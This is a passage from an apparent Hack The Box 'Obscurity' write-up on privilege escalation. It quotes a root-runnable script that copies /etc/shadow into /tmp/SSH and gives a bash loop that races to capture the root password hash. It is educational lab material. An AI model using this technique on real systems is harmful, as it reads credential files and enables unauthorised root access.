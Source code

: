 ## Privilege Escalation:

Like always I started with `sudo -l`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/13.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/13.png)

So we can run `[BetterSSH.py](http://betterssh.py)` as Root without password.

Let's Check the script, 

```python
session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

The script first checks the user we give in `/etc/shadow` if the user is correct, It moves to the password we gave.
While Checking it writes the `/etc/shadow` in `/tmp/SSH` and then it cross-checks with what we gave.
So we need to capture the hash at that time!

So I opened 2 terminal one which runs the script and another to capture the hash in `/tmp/SSH`
We need root password so I gave root as username and a random password.

```bash
while sleep 0.1; do cat /tmp/SSH/* 2>/dev/null; done
```

> sleep - delay for a specified amount of time
